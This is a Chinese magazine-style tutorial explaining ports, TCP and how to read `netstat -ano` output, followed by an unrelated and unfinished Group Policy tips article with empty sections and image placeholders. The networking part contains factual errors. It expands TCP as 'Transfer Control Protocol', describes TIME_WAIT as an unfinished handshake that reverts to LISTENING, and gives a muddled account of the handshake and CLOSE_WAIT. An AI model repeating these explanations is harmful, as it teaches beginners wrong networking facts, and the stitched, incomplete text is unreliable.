



有余力扩充的话，再说说端口（Port）。这是一个传统而又容易被不注意培养的基础内容。当我们开始接触应用层面的知识时，一些专业术语会直接映入眼帘，比如端口、协议、TCP、连接等等这些最熟悉的词语。各种知识就像需要长期积累的东西，零散了就要整理。我们加上这些点，是被一条条地构造成如今的模式图或者关键字，目的是在一些有价值的术语中建立联系。如此一来，就要有一类表层梳理，所以，我们就要把这些琐碎的知识汇总起来，在脑海中构造一个整体的知识框架。

很多人没有写东西了，今天临危受命，需要拿一些古老但又天天见得到的东西来给大家写写，那就是端口。这里我所说的端口当然就是指我们天天上网看得到却又很多人都搞不清楚的那些事。打开你的 CMD，在里面输入 `netstat -an`，然后回车，在 Local Address 一栏下是不是看到很多形如 `0.0.0.0:135` 这样的东西？请参考下面的内容，但我更想给大家介绍如何解读 `netstat -an` 以及常见网络包中的内容，不仅可以让大家对端口的概念有一个清晰的了解和认识。

## 一、什么是端口

首先我们要先明确一下端口的概念，端口可以被理解成是应用程序与应用程序之间用来通信和传送数据的东西，它就像是系统的一个门，通过这道门，能够直接地将数据发送到某一个指定的应用程序，以便该应用程序处理这些特定的数据。通常来说，端口不是一个单一的概念，而是一个逻辑上的概念。当然，我们打开一个应用程序联网的时候，一般都会在本地打开一个或多个端口，同时网络服务也会绑定在某一个或多个端口上。



结合图 1，我们清楚地知道了一个过程。记住，客户端选择的是 abc.exe，服务器程序是 dest.exe。文件会在本地打开一个临时端口 12345，这个端口我们可以认为是随机的；随后向服务器端发出连接请求，连接到服务器的某一个端口，形成了双方连接的建立。

第二步：当数据到达服务器端后，操作系统会根据协议将发送到端口号为 54321 的数据交给打开了 54321 端口的应用程序进程。之后，服务器端的操作系统便把传回来的数据信息通过这个名为 dest.exe 的程序打开的 54321 端口发送出去，然后客户端发送来的数据就能被接收到了。

第三步：客户端收到服务器端回来的消息，它会再向服务器端发送消息，表示信息正确。至此，客户端和服务器的连接建立了，上面这三步就是 TCP 的三次握手。而在其它情况下，端口也是必不可少的一个用来标识应用程序的东西。

## 二、什么是 TCP

通过前面这些小小的例子，也许我们了解了端口像是一个什么样的东西，但是，上面说了半天的 TCP 又是一个什么东西呢？

TCP 是 Transfer Control Protocol（传输控制协议）的缩写。它是 TCP/IP 协议栈中的一种协议，同样的协议还有 UDP、ICMP 等等。

> 我试图用下面的方法来让大家理解 TCP/IP 协议栈：
> 我们的语言一栏，全世界有多种语言：汉语、英语、德语、西班牙语等等，协议就和语言一样，而网络上的各种应用程序就像世界上的人一样。如果两个人要交流，当然需要的是共同的语言；如果大家没有一个共同的语言，那么他们的交流过程将需要翻译器，或者使用 TCP/IP 协议栈中的某种协议进行转换。另外，若想在网络上的 Internet 上进行连接，也需要彼此联网。

接下来再说说 TCP/IP 协议栈。对于 TCP/IP 协议栈有一个标准的参考模型，但是这个模型只是参考而言，而并非最好的标准。这一模型最先是著名的 OSI（Open System Interconnect）互联七层模型，而目前在 Internet 上广泛使用的 TCP/IP 协议栈实际上采用的是 DoD（Department of Defense，美国国防部）模型，它是一种四层模型，比之 OSI 模型少了两个层次。

注意一下右方两个图层的对比，比如，DoD 模型的应用层在现在又把它对应到 OSI 模型的应用层、表示层及会话层。关于 TCP/IP 协议栈的介绍，那里会有详细的讲解。

## 三、Netstat 命令

做了一些基础的讲解后，下面我们来说一下 netstat 命令。使用 `netstat -ano` 会给出当前系统打开的 TCP 和 UDP 端口，甚至显示对应的连接（注：其中参数 `-o` 只能在 XP 及 2003 下运行，如果你是 Win 2000/98，不能用参数 `-ano`）。同时它会显示每个端口由哪个进程所打开，而这就是所谓的 PID（进程 ID）形式显示。表 1 是在我机器上运行该命令的显示内容：

| Proto | Local Address | Foreign Address | State | PID |
|---|---|---|---|---|
| TCP | 0.0.0.0:135 | 0.0.0.0:0 | LISTENING | 732 |
| TCP | 0.0.0.0:445 | 0.0.0.0:0 | LISTENING | 4 |
| TCP | 0.0.0.0:1025 | 0.0.0.0:0 | LISTENING | 564 |
| TCP | 0.0.0.0:1026 | 0.0.0.0:0 | LISTENING | 1040 |
| TCP | 0.0.0.0:139 | 0.0.0.0:0 | LISTENING | 4 |
| TCP | 10.0.0.4:1032 | 207.46.114.22:1863 | ESTABLISHED | 3380 |
| TCP | 10.0.0.4:1079 | 65.54.195.185:80 | TIME_WAIT | 3380 |
| TCP | 127.0.0.1:5679 | 0.0.0.0:0 | LISTENING | 2584 |
| UDP | 0.0.0.0:445 | *:* |  | 4 |
| UDP | 0.0.0.0:500 | *:* |  | 564 |
| UDP | 0.0.0.0:1028 | *:* |  | 1008 |
| UDP | 0.0.0.0:1034 | *:* |  | 1008 |
| UDP | 0.0.0.0:1040 | *:* |  | 3380 |
| UDP | 0.0.0.0:1041 | *:* |  | 1008 |
| UDP | 0.0.0.0:4500 | *:* |  | 564 |
| UDP | 0.0.0.0:9 | *:* |  | 3380 |
| UDP | 10.0.0.4:123 | *:* |  | 1040 |
| UDP | 10.0.0.4:137 | *:* |  | 4 |
| UDP | 10.0.0.4:138 | *:* |  | 4 |
| UDP | 10.0.0.4:23555 | *:* |  | 3380 |
| UDP | 127.0.0.1:123 | *:* |  | 1040 |
| UDP | 127.0.0.1:1029 | *:* |  | 3380 |



# 菜鸟恶补

先看下面这一行：

`TCP 10.0.0.4:1032 207.46.114.22:1863 ESTABLISHED 3380`

这一行的第一个字段 TCP 说明该连接是一个 TCP 连接，10.0.0.4:1032 则说明了本机（10.0.0.4）打开了 1032 端口建立这个连接，而 207.46.114.22:1863 则说明了这个 TCP 连接是由本地的 1032 端口与 207.46.114.22 的 1863 端口建立的连接。ESTABLISHED 则说明当前的连接状态是已建立，而 3380 就是进程 ID（PID）号。在 Windows 系统中，按下 Ctrl+Shift+ESC 组合键调出任务管理器，在其中查找 PID 为 3380 的进程（如果找不到，任务管理器不显示 PID，那么依次点击菜单“查看”→“选择列”→“PID（进程标识符）”），会发现这个程序名为 msnmsgr.exe，这就是 MSN 所建立的连接，如图 3。





在 netstat 命令的结果中，State 字段除了 ESTABLISHED（establish 中文译作“建立”，established 可理解为 establish 的形容词形式，即“已建立”）以外，通常还有三种状态。除了在上面看到的 LISTENING 和 TIME_WAIT 外，还有一种 CLOSE_WAIT。

### 下面这三种状态作一下解释：

- **LISTENING：**表示监听状态。就是说，某一进程在本地打开了这个端口，但是当前没有哪个进程来连接该端口。

- **TIME_WAIT：**这表示连接正在等待结束。还记得刚才讲到的三次握手建立连接的过程吗？如果三次握手没有完成，比如当建立连接只完成了两次，那么这一端口会出现 TIME_WAIT 标志。这一状态表示一个连接未完成，需要在一定的时间内等待该端口中的最后一个消息。如果两分钟后还没有接收到第三次的请求，那么 TIME_WAIT 就会变为 LISTENING 状态。如果本机是发起连接的客户端，那么另外一方任何时候在 netstat 命令下就不会看到这个端口进入监听。

- **CLOSE_WAIT：**当连接正常建立后，状态就变为 ESTABLISHED。比如，用户用浏览器点一点，就会看到本地浏览器与网络服务器的 ESTABLISHED 状态。当你关闭浏览器后，连接的状态就变为 CLOSE_WAIT 状态。也就是说，这一连接已经被关闭了，但没有完成 TCP 关闭连接的四次数据交换——关于 TCP 连接的建立和关闭，可参考 TCP/IP 协议的书籍。假设刚才本地端口打开的是 1090，那个客户端 1090 对应的就是本地的进程。CLOSE_WAIT 状态的出现，一般来说是在一个程序接收到了关闭请求后，尚未完成连接关闭的过程，这一状态就是 CLOSE_WAIT。

## 四、尾声

本文对端口和协议作了一个简单的讲解，可以说是一个初识。这里结合本文内容留下几个问题，希望读者能自己寻找答案。下一期，我会再接着这个话题继续向下讲解。

- 1. UDP 协议与 TCP 协议有什么不同？
- 2. 如何打开一个端口？
- 3. 如何关闭某一个端口？
- 4. 什么是 TCP 扫描？
- 5. 什么是 UDP 扫描？

编辑点评：要读懂这些内容，对一般用户来说还是比较困难的。今天我们要知道，网络安全这一概念里，IP 地址就像是一个门牌号，而端口号就对应着这个门牌上的一个个房间。只要你能看懂这些东西，就能理解网络上的各种服务。而对于端口安全这道门窗，所有的防御措施，都可以通过文中的这套方法来加深认识。



# 组策略中的网络小技

从本文你可以学到：

- 组策略使用的技巧
- 组策略安全防范的技巧

组策略是管理单独用户和计算机、定义并控制程序、网络资源及操作系统行为的主要工具。通过组策略可以设置各种软件、计算机和用户策略，从而简单地实现对注册表内容的修改。组策略使用了更完善的管理组织方法，可以对各种对象中的设置进行管理和配置。当然也可以通过它对一些功能进行限制。今天就为大家讲解一些不为人知的组策略技巧。

## 一、禁用所有的设置

## 二、只显示配置过的策略

在组策略编辑器的“计算机配置”和“用户配置”策略中都有管理模板，可是当用户为它们进行设置的时候，往往忘记了自己以前都做过哪些设置，一个一个地打开看不但麻烦而且缓慢。下面教你一招，很快就知道自己设置了哪些策略。

方法是在每个策略管理模板中的“管理模板”上点击鼠标右键，接着选择“查看”菜单中的“只显示配置了的策略设置”和“只显示可完全管理的策略设置”（如图 2）。默认情况下，只选择了“只显示可完全管理的策略设置”这一项，用户只要再把“只显示配置了的策略设置”也给勾上，确定后就可以看到自己在管理模板中的设置了（小编注：在 Win2003 中，这个选项是在“管理模板”→“查看”→“筛选”中）。





## 三、不为人知的组策略模板

在组策略编辑器中除了常见的管理模板以外，系统中还有一些不为人知的组策略模板可以使用。选中“管理模板”，接着点击“操作”中的“添加/删除模板”命令，之后在弹出的“添加/删除模板”窗口后点击“添加”按钮，我们可以看到有两个模板系统默认是没有添加的（说明：Win2003 中是有 6 个模板默认没有添加）。

首先选择“inetcorp.adm”模板，添加后就在“管理模板”下添加了一个“IE Internet Explorer”控制功能。接着按照相同的方法添加“inetset.adm”模板，如图 3 所示。

这两个模板之所以没有默认加载，是因为它们默认安装在系统目录下的 inf 文件夹中。我们只需要将 inetcorp.adm 和 inetset.adm 这两个模板文件复制到 `C:\Windows\System32\Group Policy\Adm` 目录下，以后当你再打开组策略编辑器的时候，看到的就已经是经过修改过的模板框架了。





## 四、利用组策略免疫恶意插件

现如今流氓软件的危害已经超过了病毒，用户为了防止自己的系统遭受恶意插件的侵害，想了很多的方法，其实我们通过组策略也能起到免疫效果。

首先从网上下载网民制作的“恶意插件免疫统一设置”模板，按照前面的方法把这个模板添加到系统设置中。然后选中“管理模板”选项并点击鼠标右键，再单击“查看”菜单中的“筛选”命令，在弹出的窗口中将“仅显示配置的策略”选项前面的勾去掉。现在点击“管理模板”→“Windows 组件”→“Internet Explorer”→“安全功能”，在“安全功能”下会出现一个名为“IE 插件免疫”的选项。接着在右侧的列表中双击其中的“设置 IE 插件列表”选项，在弹出的属性窗口中点击“启用”选项，然后在插件列表中加入需要屏蔽掉的恶意插件，最后点击“确定”按钮即可完成恶意插件的防范工作，如图 4 所示。

## 五、只运行许可的程序

为了提高木马程序的隐蔽性，黑客使用了很多的方法，比如线程插入。为了防止系统程序被木马程序利用，我们可以在组策略中设置一些许可的程序，“封杀”那些常被木马利用的程序，比如 IE 浏览器。



## 六、小结

